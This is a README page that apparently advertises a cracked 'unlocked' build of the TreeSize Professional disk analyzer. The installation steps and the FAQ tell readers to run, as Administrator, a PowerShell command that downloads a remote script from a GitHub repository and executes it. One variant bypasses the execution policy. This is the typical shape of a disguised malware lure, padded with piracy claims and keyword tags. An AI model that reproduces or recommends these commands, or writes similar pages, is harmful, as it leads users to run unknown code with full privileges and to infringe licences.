

<div align="center">


<br>


# TreeSize Professional Complete Disk Analyzer
**Disk scan · Folder charts · Export reports**
<br>
**Disk scan · Folder charts · Export reports**
<br>
Premium · Pro · Complete · Windows



**TreeSize Professional unlocked — treemap scans, duplicate search, export reports and cleanup planning all enabled.**

</div>

---

> Find space hogs instantly — pro scanning, charts and cleanup planning for large Windows drives.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🧰 **Pro utilities** — Advanced file and document tools enabled.
📦 **Local desktop tools** — Works offline after setup.
🖥️ **Windows optimized** — Built for daily productivity on 10/11.
⚙️ **Power-user workflow** — Batch operations and profiles included.
📋 **Complete toolkit** — Presets and templates supported.
✨ **Premium modules** — Paid features enabled in this build.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 1 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 1 gb free space.
</details>


TAGS
treesize, treesize-professional, disk-analyzer, disk-space-analyzer, storage-analyzer, folder-size, disk-usage, hard-drive-analyzer, space-manager, file-scanner, directory-size, storage-management, disk-cleanup, treesize-free-alternative, drive-analyzer
